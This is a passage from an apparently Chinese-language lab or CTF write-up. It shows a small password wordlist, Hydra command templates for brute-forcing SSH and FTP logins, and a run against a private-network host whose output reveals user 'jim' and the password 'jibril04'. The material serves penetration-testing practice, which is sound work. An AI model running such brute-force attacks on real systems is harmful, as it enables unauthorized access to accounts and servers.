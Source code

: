 ```
eagles
crystal1
azertyuiop
winter
sexy12
angelina
james
svetlana
fatima
123456k
icecream
popcorn1
```

生成爆破字典，爆破ssh  
使用hydra，进行爆破,hydra是著名黑客组织thc的一款开源的暴力密码破解工具，可以在线破解多种密码。

```
破解ssh： 
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip ssh 
hydra -l 用户名 -p 密码字典 -t 线程 -o save.log -vV ip ssh 
破解ftp： 
hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV 
hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV 
```

```
爆破ssh
hydra -l jim -P passwd.txt -t 10 ssh://192.168.124.148
```

### [](https://lnng.top/posts/2ea3.html#%E7%88%86%E5%87%BAssh%E7%99%BB%E5%BD%95%E5%AF%86%E7%A0%81 "爆出ssh登录密码")爆出ssh登录密码

```
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-10 08:38:19
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 10 tasks per 1 server, overall 10 tasks, 252 login tries (l:1/p:252), ~26 tries per task
[DATA] attacking ssh://192.168.124.148:22/
[STATUS] 110.00 tries/min, 110 tries in 00:01h, 142 to do in 00:02h, 10 active



[STATUS] 80.00 tries/min, 160 tries in 00:02h, 92 to do in 00:02h, 10 active                                                      
[22][ssh] host: 192.168.124.148   login: jim   password: jibril04                                                                 
1 of 1 target successfully completed, 1 valid password found                                                                      
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-10 08:41:16
```
